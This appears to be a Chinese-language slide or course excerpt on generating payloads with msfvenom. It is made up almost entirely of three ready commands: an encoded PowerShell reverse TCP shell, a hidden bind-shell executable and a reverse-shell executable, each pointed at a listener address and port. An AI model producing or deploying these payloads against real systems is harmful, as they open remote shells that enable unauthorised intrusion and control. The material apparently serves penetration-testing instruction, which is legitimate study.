

# 生成脚本payload
Powershell  生成powershell的脚本运行
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=192.168.8.124 LPORT=1122 -e cmd/powershell_base64 -i 3 -f raw -o shell.ps1
后面在内网的时候还会讲
Netcat
nc正向连接
msfvenom -p windows/shell_hidden_bind_tcp LHOST=192.168.8.124 LPORT=1122  -f exe> 1.exe
nc反向连接，监听
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.8.124 LPORT=1122  -f exe> 1.exe